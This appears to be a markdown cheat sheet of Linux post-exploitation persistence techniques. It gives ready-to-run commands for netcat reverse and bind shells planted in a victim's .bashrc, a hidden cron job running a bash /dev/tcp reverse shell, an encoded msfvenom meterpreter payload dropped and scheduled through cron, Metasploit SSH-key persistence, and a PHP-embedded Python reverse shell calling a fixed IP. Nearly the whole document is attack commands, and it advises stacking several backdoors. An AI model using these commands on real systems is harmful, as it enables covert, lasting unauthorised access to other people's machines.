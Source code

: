 # linux persistance
anytime you have a remote shell, remember to background it and run *stty raw -echo* so the terminal will not echo special character and pass them through the shell (when you type *fg*, it will not echo to screen). You can also use *stty -a* on the attack machine to see your rows and columns and set them to the same thing on the remote box with *stty rows* and *stty cols* respectively

## tools
[linper](https://github.com/montysecurity/linper)

## directories
everything in /etc/init and /etc/init.d/ is ran at startup

/etc/rc.local is a pre-init file that will also work on BSD and Linux, the file has to start with "/bin/bash -e" and end with "exit 0"

## netcat and bashrc
### reverse shell
Put reverse shell in targets bashrc and despite success or fail, it returns no error to screen and gives the user their bash shell upon initilization
	
	On Target Box
		echo "nc attackBox attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc -lnvp attackPort

### bind shell
Same idea as above, only it's a bind shell, not a reverse shell

	On Target Box
		echo "nc -lnvp attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc attackBox attackPort

## bash and cron
The less dependencies the better. Since Linux treats socket connections as files, you can redirect the bash terminal's interactive capabilities to a *file* that is really just a socket connection
	
	On Target Box
		echo "echo 'bash -i >& /dev/tcp/attackBox/attackPort 0>&1 | bash'" > /var/tmp/.cron.sh && chmod +x /var/tmp/.cron.sh && echo "* * * * * cd /var/tmp && ./.cron.sh" > cronjobtmp.sh && crontab cronjobtmp.sh && rm cronjobtmp.sh
	On Attack Box
		nc -lnvp attackPort

## metasploit and cron
If you prefer to use msfconsole to make post exploitation a bit easier, below is a one-liner for creating the payload and handler

	On Attack Box
		sudo service postgresql restart && msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -e x86/shikata_ga_nai -i 5 LHOST=attackBox LPORT=attackPort -o mal.elf && msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST attackBox; set LPORT attackPort; exploit"

	On Target Box
		nc -lnvp $port > /home/.mal.elf && chmod +x /home/.mal.elf
	
	On Attack Box
		nc $target $port < mal.elf

	On Target Box
		echo "* * * * * cd /home/ && ./.mal.elf" > .cron && crontab .cron && shred .cron; rm .cron

## metasploit and ssh
You need to already have a meterpreter session to follow along
	
	In Meterpreter
		use post/linux/manage/sshkey_persistence
		set fields
		run
		
	On Attack Box
		chmod 600 $ssh_key.txt (created by module)
		ssh -i $ssh_key.txt user@target

## php and python
If you have write access to a php file on the target and the target has python installed, you can use the following for a reverse shell

	In PHP file
		<?php system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.12",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''); ?>
	On Attack Box
		nc -lnvp 5555

Suggest stacking persistence, as a wise man once said
> Two is one, one is none - Mubix
